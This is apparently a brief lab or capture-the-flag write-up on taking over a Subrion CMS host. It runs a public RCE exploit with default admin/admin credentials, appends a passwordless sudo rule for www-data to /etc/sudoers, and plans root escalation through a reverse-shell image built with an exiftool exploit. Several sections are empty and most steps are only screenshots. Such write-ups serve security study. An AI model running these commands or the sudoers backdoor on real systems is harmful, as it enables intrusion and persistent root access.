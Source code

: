 #Pwned! 
```IP
192.168.230.163
```
## Nmap
```

```

## Nmap UDP


# Enumeration

## HTTP
https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE
```
sudo python3 subrion.py -u http://192.168.230.163/panel/ -l admin -p admin
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014185926.png?raw=true)

```
echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200119.png?raw=true)
root owned bash script in opt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200211.png?raw=true)

it reads images from var www html subrion uploads

create a revshell image
https://github.com/convisolabs/CVE-2021-22204-exiftool/tree/master
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200311.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200355.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014200411.png?raw=true)
## Automated

### Peass
### Mimikatz


